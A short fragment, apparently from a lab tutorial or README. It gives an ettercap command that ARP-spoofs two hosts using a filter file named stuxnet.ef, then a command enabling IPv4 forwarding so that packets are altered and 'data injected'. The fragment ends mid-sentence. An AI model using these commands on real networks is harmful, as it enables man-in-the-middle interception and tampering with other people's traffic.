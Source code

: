 <p align="center"><img src=images/Picture115.png></p>

<div align="center">Run ettercap -T -q -F stuxnet.ef -M arp:remote -i eth0 /100.100.100.2// /100.100.100.4//&</div>
<p align="center"><img src=images/Picture116.png></p>

<div align="center">Run echo 1 > /proc/sys/net/ipv4/ip_forward to forward the IPv4 traffic. You should see the messages “data injected” OR “data injected again” as the packets are altered, and data injected</div>